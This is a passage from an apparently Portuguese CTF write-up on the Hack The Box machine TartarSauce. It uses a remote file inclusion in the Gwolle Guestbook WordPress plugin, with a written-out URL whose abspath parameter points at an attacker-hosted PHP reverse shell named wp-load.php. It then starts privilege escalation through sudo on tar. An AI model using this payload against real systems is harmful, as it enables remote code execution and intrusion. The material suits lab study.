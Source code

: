 Bom, acessando esse readme.txt encontramos isso... Isso também explica pq o wpscan não encontrou nada!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_g3.png)

Agora vamos explorar ele, copiamos esse exploit para nossa máquina e vemos o que podemos fazer

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_searchsploit1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_searchsploit2.png)

> https://www.immuniweb.com/advisory/HTB23275

Bom, ai tá o que devemos fazer está aqui:

`http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://ip/path`

## Pegando reverse shell

Bom, sabendo disso, vamos montar nosso reverse shell php na máquina e carregar no servidor, vou usar um que já vem por padrão na Kali

Aqui no caso, quando a requisição bate na nossa máquina, ela por padrão procura por um arquivo wp-load.php para fazer o download e executar ele, então devemos nomear nosso shell de wp-load.php

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_rev.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_rev1.png)

Agora depois de abrir um Python HTTP Server na Kali, abrimos a requisição no site

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_rev2.png)

Recebemos a reverse shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_rev3.png)

# Escalação de Privilégio -> Onuma

Bom, então vamos começar a escalação de privilégio, vamos rodar o linpeas na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_lin.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_lin1.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_lin2.png)

Verificamos que podemos dar sudo como onuma no tar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-tartarsauce/T_lin3.png)

Vamos explorar de dois modos isso
